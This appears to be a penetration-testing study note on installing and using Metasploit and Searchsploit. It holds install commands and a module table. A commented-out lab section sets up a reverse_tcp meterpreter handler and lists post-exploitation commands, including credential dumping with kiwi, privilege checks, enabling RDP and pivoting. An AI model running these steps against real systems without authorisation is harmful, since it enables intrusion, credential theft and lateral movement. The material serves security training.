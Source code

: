 ```yaml
---
sort : 2 
--- 
```


# Metasploit Framework (MSF)

Metasploit is primarily designed as an exploitation toolkit. It contains a variety of different modules that have prepackaged exploits for a number of vulnerabilities.

> Installation

```bash
$ sudo apt update
$ sudo apt install metasploit-framework
```

> initialize the database! (PostgreSQL) ?? 

```bash
$ msfdb init

$ msfconsole -q

# to check that we've connected to the database
msf6 > db_status

# to save the settings/active datastores in metasploit 
msf6 > save 
```

> MetaSploit Framework architecture 

<p align="center"> 
  <img src='./../assets/images/metasploit-guide-set-up.png'> 
</p>


| exploit | module holds all of the exploit code                                                                                                            |
|---------|-------------------------------------------------------------------------------------------------------------------------------------------------|
| payload | Used hand in hand with exploits, contains the various bits of `shellcode` we send to have executed following exploitation                         |
| aux     | commonly used in `scanning and verification` machines are exploitable, This is not the same as the actual exploitation of course                  |
| post    | One of the most common activities after exploitation is `looting and pivoting`. Which module provides these capabilities                          |
| encoder | Commonly utilized in `payload obfuscation`, module allows us to modify the 'appearance' of our exploit such that we may avoid signature detection |
| nop     | used with `buffer overflow` and `ROP` attacks                                                                                                       |
| load    | a command to load different modules                                                                                                             |









<br><br>


# Searchsploit

```bash
$ searchsploit -u                         # updating !! 
# OR some of the exploit metadata are not included. To access them,
$ searchsploit [exploitName Version] -w   # Exploit-DB Online

$ searchsploit -m [exploit-db-number.ext]  # mirror/copy the exploit 


# Examples :

$ searchsploit afd windows local
$ searchsploit -t oracle windows
$ searchsploit -p 39446
$ searchsploit linux kernel 3.2 --exclude="(PoC)|/dos/"
$ searchsploit -s Apache Struts 2.0.0
$ searchsploit linux reverse password
$ searchsploit -j 55555 | json_pp
```



























<!-- >ues multi/handler
> set PAYLOAD windows/meterpreter/reverse_tcp
>show options



run the exploit now via either the command 'exploit' or the command 'run -j' to run this as a job.
Once we've started this, we can check all of the jobs running on the system by running the command `jobs`




meterpreter > 
What command do we use to transfer ourselves into the process? This won't work at the current time as we don't have sufficient privileges but we can still try!  :::: migrate

What command can we run to find out more information regarding the current user running the process we are in? :: getuid

finding more information out about the system itself?:::: sysinfo

meterpreter > load kiwi

figure out the privileges of our current user::: getprivs

then transfer files to the victim machine ::: upload
or run a Metasploit module::: run 

figure out the networking information and interfaces on our victim?:: ipconfig / ifconfig  

> run post/windows/gather/checkvm. This will determine if we're in a VM, a very useful piece of knowledge for further pivoting.
> run post/multi/recon/local_exploit_suggester. This will check for various exploits which we can run within our session to elevate our privileges 


Finally, let's try forcing RDP (remote Desktop protocol) to be available. This won't work since we aren't administrators, however, this is a fun command to know about: > run post/windows/manage/enable_rdp

> shell     # to finally spawn a system shell 


in the shell 
let's take a look at the autorouting options available to us in Metasploit

While our victim machine may not have multiple network interfaces (NICs), we'll walk through the motions of pivoting through our victim as if it did have access to extra networks -->